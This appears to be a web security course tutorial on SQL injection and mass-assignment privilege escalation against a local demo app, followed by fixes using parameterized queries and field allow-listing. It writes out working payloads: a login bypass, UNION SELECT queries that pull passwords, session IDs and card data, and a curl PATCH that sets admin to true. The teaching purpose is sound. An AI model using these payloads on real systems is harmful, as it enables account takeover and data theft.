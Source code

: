 # Injection Attacks

In this example, we're going to look at two different types of attacks:

- SQL Injection
- Privilege Escalation

## SQL Injection

SQL Injection is a (web) security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. It generally allows an attacker to view data that they are not normally able to retrieve, and it can also enable an attacker to alter data in the database.

### How the Attack Works

1. User inputs data into an application.
2. Application dynamically constructs an SQL query using that input.
3. Malicious input alters the SQL query in an unintended way.

#### Bypassing Login

For example, if we log in using the password `' OR 1=1--`, our malicious password will create the following SQL query:

```sql
SELECT * FROM users WHERE email = 'robert.d.tables@frontendmasters.com' AND password = '' OR 1=1--'
```

In this case `1` does, in fact, equal `1`, which means that query was successful and the user was successfully returned. For this _particular_ vulnerability, this _particularly_ bad because from this point forward, we've set a session token that will allow us to move around the site as that user.

#### Getting More Than You Asked For

Let's take a look at `/api/users`.

It's kind of annoying (depending on your perspective, I suppose) that you can only get an equal number of columns as the original query. But, if we're clever, we can get around that. Consider this lovely URL.

```
/api/users?search=%27%20UNION%20SELECT%20id%20||%20%27%20-%20%27%20||%20password%20||%20%27%20-%20%27%20||%20email%20FROM%20users%20--
```

For if we take out all of the encoding characters, it looks something like this:

```
' UNION SELECT id || ' - ' || password || ' - ' || email FROM users --
```

An attacker can run arbitrary SQL. The constructed SQL query becomes:

```sql
SELECT name FROM users WHERE name LIKE '' UNION SELECT id || ' - ' || password || ' - ' || email FROM users --%'
```

This query now returns some very sensitive data from the users table. We'll talk a little bit more about storing passwords in plain text later on, but regardless—this wouldn't be ideal even if the passwords were encrypted.

We can target the `products` table as well, which has a larger number of columns. We can use `NULL` values to pad the number of columns needed.

```
/api/products?search=' OR 1=1 UNION SELECT sessionId, userId, NULL, NULL, NULL, NULL FROM sessions --
```

Alternatively, we can use a similar approach to get our hands on some sensitive information.

```
/api/products?search=' OR 1=1 UNION SELECT creditCard, cvv, expirationDate, NULL, NULL, NULL FROM users --
```

You get the idea. There are probably plenty of other ways that we could get our hands on the data using the same techniques. Let's look at other flavors of this attack before we go about fixing the issue.

#### Stealing Sessions

It's one thing to be able to steal information about your users, but it's far worse if you can steal the important information needed to _become_ your users.

```
/api/users?search=' UNION SELECT sessionId FROM sessions --
```

This will give us all of the session IDs. We'll see something like this:

```json
{
  "users": [
    { "name": "6d130686184ea5d67ed0e58fb9409b34" },
    { "name": "d771c126c65e0ab66a2979b0086a3d70" }
    //…
  ]
}
```

Now, we _could_ adjust our cookie to any one of these session IDs and impersonate a user.

### Dropping Tables Like They're Hot

The `sqlite3` library is pretty good about not letting us execute writes or other non-idempotent actions in the `db.all` and `db.get` methods and writing my own SQLite driver that didn't have these protections didn't feel like the best use of my time. But, that doesn't mean we're totally safe.

## Steps to Fix and Secure the Application

To mitigate SQL Injection, always use parameterized queries (also known as prepared statements).

### Step-by-Step Guide for Remediation

Replace dynamic query construction with parameterized queries.

```javascript
app.get('/users', async (req, res) => {
  const name = req.query.name;

  try {
    // Using parameterized query to prevent SQL Injection
    const users = await db.all(`SELECT * FROM users WHERE name = ?`, [name]);
    res.json(users);
  } catch (err) {
    res.status(500).json({ error: err.message });
  }
});
```

In this query, `?` acts as a placeholder for the `name` parameter. The database driver safely handles its insertion into the SQL query.

#### Securely Handle User Input

We can also use prepared statements in SQL to futher abstract away the query itself.

```javascript
const usersQuery = await db.prepare(`SELECT * FROM users WHERE name = ?`);
const users = await usersQuery.all(name);
```

This ensures the input data is treated as a parameter, not a part of the SQL string.

## Privilege Escalation

This example uses a SQLite database and I'm too lazy to whip up a NoSQL database—so, we're going to fake it for a moment.

You've probably done something like this in JavaScript:

```js
const original = { a: 1, b: 2 };
const updated = { ...original };
```

Now, imagine that it something a little more nefarious.

```js
const user = {
  id: 1,
  name: 'Bobby Tables',
};

const updated = {
  ...user,
  admin: true,
};
```

In some cases—most commonly with `PATCH` operations, you can slide in some additional data either using the form field or by sending a maliciously crafted HTTP request with additional data.

We can add an additional input to our form or even just change one of the existing ones.

```html
<input type="hidden" name="admin" value="true" />
```

This will now be included in the form payload. Alternatively, we can send a `curl` request.

```sh
curl 'http://localhost:4007/profile' \
  -X 'PATCH' \
  -H 'Accept: */*' \
  -H 'Accept-Language: en-US,en;q=0.9' \
  -H 'Connection: keep-alive' \
  -H 'Content-Type: application/json' \
  -H 'Cookie: session=987292f04aaca60af0c3c56b93326da9' \
  -H 'Origin: http://localhost:4007' \
  -H 'Referer: http://localhost:4007/profile' \
  --data-raw '{"admin":true}'
```

### Solving for the Problem

This one is pretty simple: be specific about what you wan to update:

```ts
const { name, email, password /* etc */ } = req.body;
const fields = toParamsAndValues({ name, email, password });
```

## Further Reading

- [Mozilla Developer Network: SQL Injection](https://developer.mozilla.org/en-US/docs/Glossary/SQL_Injection)
- [PortSwigger: SQL injection](https://portswigger.net/web-security/sql-injection)
- [OWASP: SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)
